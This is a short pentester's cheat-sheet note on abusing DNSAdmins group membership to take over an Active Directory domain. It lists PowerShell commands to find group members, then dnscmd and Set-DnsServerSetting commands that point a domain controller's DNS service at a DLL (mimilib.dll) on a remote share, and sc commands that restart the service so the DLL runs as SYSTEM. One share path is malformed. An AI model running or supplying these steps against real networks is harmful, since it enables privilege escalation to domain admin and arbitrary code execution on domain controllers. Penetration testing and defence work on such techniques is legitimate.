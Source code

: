 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#powershell #dnscmd #sc 
- DNSAdmins group member can load arbitrary DLLs with the privilege of the process called dns.exe. dns.exe runs as SYSTEM.
- If domain controlles in also running a DNS server, it can be abused to gain domain admin.
# Enumeration
- Powerview
```powershell
Get-NetGroupMember -GroupName "DNSAdmins"
```
- Active Directory Module
```powershell
Get-ADGroupMember -Identity DNSAdmins
```
# Exploitation
- Once, a member of this group is compromised, dnscmd.exe can be used (from RSAT DNS) to load the DLL.
```powershell
dnscmd <dc> /config /serverlevelplugindll \\172.16.50.100\dll\mimilib.dll
```
- Using powershell to do the same (also requires RSAT DNS)
```powershell
$dnsettings = Get-DnsServerSetting -ComputerName <dc-name> -Verbose -All
$dnsettings.ServerLevelPluginDll = "\172.50.50.100\dll\mimilib.dll"
Set-DnsServerSetting -InputObject $dnsettings -ComputerName <dc> -Verbose
```
- Restart the DNS server
```powershell
sc \\<dc> stop dns
sc \\<dc> start dns
```